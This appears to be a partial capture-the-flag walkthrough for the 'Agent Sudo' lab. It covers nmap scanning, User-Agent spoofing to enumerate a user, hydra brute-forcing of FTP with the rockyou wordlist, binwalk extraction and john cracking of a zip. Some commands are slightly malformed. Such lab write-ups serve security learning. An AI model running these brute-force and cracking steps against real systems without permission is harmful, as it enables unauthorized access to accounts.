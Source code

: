 # Agent Sudo

> You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

<br>

Process:
- 1) scanning 
  - port scan: `nmap -T4 <ip>`
    - ports open = **3**
  - aggressive scan: `nmap -T4 -A -p 21,22,80`
- 2) enumerate port 80: 
  - use burp to change user agent to "C"
    - i.e. `User-agent: C` in request 
  - agent name = **chris**
- 3) try to brute force FTP (weak password)
  - `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<ip>`
  - password found = **crystal**
- 4) login to FTP
  - `ftp chris@<ip>` -> [crystal]`
  - found files indicating password hidden in file
- 5) crack password protected file:
  - `stegcracker cute-alien.jpg` -- failed 
  - `binwalk cutie.png` -- found text file 
    - extract text file:
    - `binwalk -e cutie.png`
- 6) crack zip file:
  - `zip2john 8702.zip > a.hash`
  - `john -w <wordlist> > a.hash`
  - password found: **alient**